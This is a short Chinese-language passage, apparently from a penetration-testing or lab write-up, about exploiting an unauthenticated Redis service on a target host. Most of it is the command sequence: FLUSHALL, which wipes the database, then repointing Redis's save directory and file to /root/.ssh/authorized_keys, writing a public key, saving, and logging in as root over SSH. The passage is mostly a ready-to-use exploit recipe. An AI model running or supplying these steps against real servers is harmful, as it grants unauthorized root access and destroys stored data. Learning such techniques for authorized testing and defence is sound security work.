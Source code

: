 连接至靶机redis服务，开始写入公钥信息

```
Flushall //刷新并删除记录-慎用

Config get dir  //查看备份路径

config set dir /root/.ssh .//更换路径为密钥存放路径

Config get dbfilename  //查看备份文件信息

config set dbfilename authorized_keys  //更换备份文件名密钥名称

Set x "\n\n\n -公钥信息-\n\n\n"

Save  //保存信息
```

![image-20210906133317037](/assets/images/20210911/image-20210906133317037.png)

成功写入后，直接连接服务器即可

```
ssh root@10.1.2.185
```

![image-20210906134040300](/assets/images/20210911/image-20210906134040300.png)
